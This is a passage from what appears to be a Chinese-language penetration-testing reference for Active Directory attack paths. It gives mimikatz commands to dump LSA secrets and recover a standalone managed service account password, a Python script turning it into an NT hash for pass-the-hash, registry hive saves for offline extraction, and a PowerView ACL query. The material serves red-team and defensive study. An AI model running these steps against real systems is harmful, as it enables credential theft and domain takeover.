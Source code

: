 有关其他可选参数，请查看 DirSync 文档。

## DumpSMSAPassword

具有此信息的计算机表明其上安装了独立托管服务帐户 (sMSA)。具有计算机管理权限的参与者可以通过转储 LSA 机密来检索 sMSA 的密码。

+ 滥用信息

从 sMSA 所在计算机上的提升命令提示符运行 mimikatz，然后执行以下命令：

```
privilege::debug
token::elevate
lsadump::secrets
```

在输出中，找到*_SC_{262E99C9-6160-4871-ACEC-4E61736B6F21}_，*后缀为目标 sMSA 的名称。下一行包含*cur/hex ：*后跟 sMSA 的十六进制编码密码。

要使用此密码，必须计算其 NT 哈希值。这可以使用一个小的 python 脚本来完成：

```
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

像这样执行它：

```
python3 nt.py 35f3e1713d61...
```

要进行 sMSA 身份验证，请利用哈希传递。

或者，为了避免在主机上执行 mimikatz，您可以从提升的提示符下保存*SYSTEM*和*SECURITY注册表配置单元的副本：*

```
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

将保存在*%temp%的名为**SYSTEM*和*SECURITY*的文件传输到另一台可以安全执行 mimikatz 的计算机上。

在另一台计算机上，从命令提示符运行 mimikatz，然后执行以下命令以获取十六进制编码的密码：

```
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## ObjectType

+ ObjectType:All

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
